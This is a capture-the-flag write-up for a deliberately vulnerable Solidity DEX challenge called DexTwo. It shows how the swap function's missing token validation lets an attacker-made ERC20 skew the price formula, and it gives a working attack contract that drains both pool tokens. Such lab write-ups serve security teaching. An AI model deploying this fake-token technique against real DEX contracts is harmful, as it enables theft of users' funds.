

## Challenge
### Description
The goal of this challenge is to drain both the `token1` and `token2` balances from the `DexTwo` contract, a slightly modified version of the previous Dex.
The player starts with 10 `token1` and 10 `token2`. The `DexTwo` contract holds 100 of each token.
Unlike the previous challenge, the success condition is not to zero out just one of the two, but to zero out both the `token1` and `token2` held by the DEX.
What changed from the previous Dex is the token restriction in `swap`. The previous Dex had a condition limiting swappable tokens to `token1` and `token2`, but in `DexTwo` that condition is gone.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```
## Background

---

The DEX in this challenge does not maintain an invariant like a real AMM. It only looks at the current balance ratio of the `from` and `to` tokens held by the contract to compute the amount received.
$$
swapAmount = amount \times \frac{balance(to)}{balance(from)}
$$
If the DEX's balance of the `from` token is small and its balance of the `to` token is large, you can receive a lot of the `to` token with very little of the `from` token.

---

When you cast an address to the ERC20 interface, like `IERC20(from)`, the contract cannot tell whether that address is really `token1` or `token2`. As long as that address has functions like `balanceOf`, `transferFrom`, and `approve` and they behave normally, it can be used like an ERC20 token.
So if `swap` does not validate `from` and `to`, a token the attacker created can enter the pricing formula.

---

`swap` finally calls `IERC20(from).transferFrom(msg.sender, address(this), amount)`. The caller here is the `DexTwo` contract, so `DexTwo` needs an allowance to pull `msg.sender`'s `from` token.
If the attack contract uses a token it created as `from`, it can grant the allowance to `DexTwo` in advance inside the attack token contract.
## Code analysis

---

The previous Dex's `swap` had the following condition.
```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```
But in `DexTwo`'s `swap`, this condition is gone.
```solidity
function swap(address from, address to, uint256 amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```
The only thing checked here is whether `msg.sender` holds at least `amount` of the `from` token. It does not check whether `from` is `token1` or `token2`, or whether `to` is one of the two.
The attacker can put their own `T3` token as `from`, and put the `token1` or `token2` they want to drain as `to`.

---

```solidity
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```
The denominator of the formula is the DEX's balance of the `from` token. If the attacker uses their own `T3` as `from`, the attacker can also decide the DEX's `T3` balance.
If the DEX holds only 1 `T3` and you swap 1 of `T3 -> token1`, the calculation is:
$$
1 \times \frac{100}{1} = 100
$$
So 1 `T3` gets you all 100 of the DEX's `token1`.
After the first swap, the DEX receives 1 `T3` from the attacker, so the DEX's `T3` balance becomes 2. Now swapping 2 of `T3 -> token2` drains all of `token2` as well:
$$
2 \times \frac{100}{2} = 100
$$

---

```solidity
IERC20(from).transferFrom(msg.sender, address(this), amount);
IERC20(to).approve(address(this), swapAmount);
IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
```
In the first line, the DEX pulls the `from` token from the attacker. If `from` is a token the attacker created, they can grant the DEX a sufficient allowance in the attack token contract.
In the second and third lines the DEX sends its `to` token to `msg.sender`. The original tokens in this challenge inherit standard ERC20, so the DEX can approve itself and then send via `transferFrom(address(this), msg.sender, swapAmount)`.
The attacker needs to put 1 `T3` into the DEX to make the denominator of the pricing formula small, and hold enough `T3` in the attack contract for the subsequent swaps.
## Solution
Call the attack token `T3`. At the start, the DEX holds `token1 = 100` and `token2 = 100`.
In the attack contract's constructor, create a total of 4 `T3`. Mint 1 of them to the DEX and keep 3 in the attack contract. This keeps the first swap's denominator from being 0 and sets the DEX's `T3` balance to the value the attacker wants.
First, call `T3 -> token1` with `amount = 1`. The DEX's `T3` balance is 1, so it becomes `1 * 100 / 1 = 100`, and 100 `token1` are drained. When this swap finishes, the DEX's `T3` balance becomes 2.
Second, call `T3 -> token2` with `amount = 2`. This time `2 * 100 / 2 = 100`, so all 100 `token2` are drained as well. The DEX's `token1` and `token2` balances both become 0, satisfying the level condition.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IDexTwo {
    function swap(address from, address to, uint256 amount) external;
    function token1() external view returns (address);
    function token2() external view returns (address);
}

contract Attack is ERC20 {
    IDexTwo d2;

    constructor(address _addr) ERC20("T3", "t3") {
        d2 = IDexTwo(_addr);
        _mint(address(this), 3);
        _mint(_addr, 1);
        _approve(address(this), _addr, 100000);
    }

    function attack() public {
        address t1 = d2.token1();
        address t2 = d2.token2();
        d2.swap(address(this), t1, 1);
        d2.swap(address(this), t2, 2);
    }
}
```

